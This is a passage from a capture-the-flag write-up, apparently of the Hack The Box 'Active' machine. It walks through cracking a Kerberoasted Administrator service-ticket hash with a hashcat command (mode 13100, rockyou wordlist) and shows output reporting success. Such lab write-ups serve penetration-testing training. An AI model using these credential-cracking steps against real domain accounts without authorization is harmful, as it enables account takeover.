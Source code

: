   <img src="/assets/img/active/admin_hash.png">
</div>

Pass the hash to hashcat.

First, find the mode using [hashcat's website mode catalog][Hashcat-Catalog]. The initial section of the returned hash is the hash mode we must use. In this case, it is `krb5tgs`.

<div class="article-image">
  <img src="/assets/img/active/hash_mode_website.png">
</div>

The hash mode number is `13100`.

Now craft your hashcat command.

<div class="article-code">
{% highlight sh%}
sudo hashcat -m 13100 administrator.hash /usr/share/wordlists/rockyou.txt -o cracked_hash
{% endhighlight %}
</div>


<div class="article-code">
{% highlight sh%}
jeanp@~$ sudo hashcat -m 13100 administrator.hash /usr/share/wordlists/rockyou.txt -o cracked_hash
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Ad...a91318
...
{% endhighlight %}
</div>

[gpp-decrypt]: https://www.kali.org/tools/gpp-decrypt/
[AES-Key]: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be
[AD-Mindmap]: https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg
[Kerberoasting]: https://www.ibm.com/topics/kerberoasting#:~:text=Kerberoasting%20is%20a%20cyberattack%20that,data%2C%20spread%20malware%20and%20more. 
[Hashcat-Catalog]: https://hashcat.net/wiki/doku.php?id=example_hashes